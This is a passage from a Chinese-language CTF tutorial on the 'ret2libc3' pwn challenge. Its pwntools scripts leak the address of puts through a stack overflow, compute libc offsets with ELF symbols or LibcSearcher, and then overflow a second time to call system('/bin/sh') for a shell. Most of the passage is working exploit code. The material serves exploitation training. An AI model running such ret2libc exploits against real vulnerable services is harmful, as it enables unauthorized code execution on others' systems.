sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = flat([b'a' * 112, puts_plt, b'bbbb', puts_got])
# 指定接收位置在原程序输出之后
sh.sendlineafter('Can you find it !?', payload)
# u32()用于解码字节数据，与p32()相对
# [0: 4]截断需要的内容，即前四位是puts的地址，后面的数据是无效数据
# hex()用于将10进制转换为16进制
print(hex(u32(sh.recv()[0: 4])))
```

执行脚本

> 

可以看到，程序成功输出了`puts()`函数的地址，接下来只需要知道`puts()`相对于`system()`的偏移值，就可以找到`system()`的地址

6. 计算偏移

计算偏移的方法有很多种，但在此之前需要知道，由于动态链接库`glibc`的版本多样性，不同版本的`glibc`中函数的相对偏移也不同，在使用不同方法计算偏移的时候，仍需考虑`glibc`版本不同带来的差异，比如本地使用的`glibc`是`glibc-2.40-1ubuntu3.1`版本，但是服务器使用的是`glibc-2.39-1ubuntu3.1`，那么我就不能仅使用本地`glibc`文件来计算偏移，而是需要使用服务器对应的版本进行计算

- 本地与服务器版本一致时，直接编译c程序计算

如果本地与服务器版本一致，那么我们可以直接编译一个包含`puts()`和`system()`函数的文件，并完全关闭`RELRO`保护，直接查看偏移值

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	puts("abc");
	system("ls");
}
```

使用`gcc`编译，并关闭`RELRO`保护

```sh
gcc test.c -Wl,-z,norelro
```

确认`RELRO`保护完全关闭

> 

使用`pwndbg`查看`got`表

> 

上图中直接显示了两个函数的地址，其偏移值为`0xf7de1d80 - 0xf7db7410 = 174448`字节，故可知`system()`位于`puts()`低174448字节的位置

- 本地版本与服务器不一致时，下载对应版本查看

使用pwndbg编写脚本，直接计算`glibc`文件中的相对偏移

```py
from pwn import *

elf = ELF('/lib/i386-linux-gnu/libc.so.6')

puts_addr = elf.symbols['puts']
system_addr = elf.symbols['system']

print(puts_addr - system_addr)
```

然后得到结果

> 

- 使用`LibcSearcher`库快捷搜索

`LibcSearcher`是一个基于`python`的快捷搜索指定动态链接函数特征，并计算地址的库，用法如下

首先，创建一个`LibcSearcher`对象，参数是已经泄露的函数及其地址

`libc = LibcSearcher('puts', puts_addr)`

然后计算偏移量，这里的含义是通过`puts`在内存中的位置减去`puts`在`glibc`的绝对位置，得到`ALSR`的偏移量

`libc_offset_base = puts_addr - libc.dump('puts')`

然后计算`system()`在`glibc`的绝对位置，加上相对偏移，得到`system()`在内存中的位置

`system_addr = libc_offset_base + libc.dump('system')`

下面是攻击脚本

```py
from pwn import *
from LibcSearcher import *

elf = ELF('./ret2libc3')
sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = flat([b'a' * 112, puts_plt, b'bbbb', puts_got])
sh.sendlineafter('Can you find it !?', payload)

puts_addr = u32(sh.recv()[0: 4])
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')

print(puts_addr - system_addr)
```

> 

7. 构建攻击脚本

其实可以发现，使用`LibcSearcher`库可以直接得到`system()`和`"/bin/sh"`的地址，因此我们直接通过`LibcSearcher`构建攻击脚本，但是在此之前，我们先捋一下攻击的过程

- 首先第一次栈溢出，返回地址`put@plt`，让程序执行`puts()`，参数为`puts@got`，带出`puts()`的实际地址
- 然后程序需要返回`main()`函数，因为我们得到`puts()`的地址后，程序会继续进行下去，如果此时不返回`main()`函数，而是直接停止执行，那么得到的`puts()`函数的地址将没有任何意义
- 程序返回`main()`函数重新执行，然后进行第二次栈溢出，第二次栈溢出与第一次有些不同，因为`_start`函数有一句`and esp, 0FFFFFFF0h`进行了堆栈平衡，在`and`语句之前，esp的值是`0xffffade8`，而经过`and`之后，esp的值就变为了`0xffffade0`。所以问题就出在 `_start`函数的`and`语句，要是直接返回`main`函数就相当于少了一个`and`操作，`esp`的位置也就多了8，因此第二次溢出只需要104字节
- 然后程序返回`system()`，调用`"/bin/sh"`，最终`getshell`

```py
from pwn import *
from LibcSearcher import *

elf = ELF('./ret2libc3')
sh = process('./ret2libc3')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

payload = flat([b'a' * 112, puts_plt, main, puts_got])
sh.sendlineafter('Can you find it !?', payload)

puts_addr = u32(sh.recv()[0: 4])
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = flat([b'a' * 104, system_addr, b'bbbb', bin_sh])
sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> 

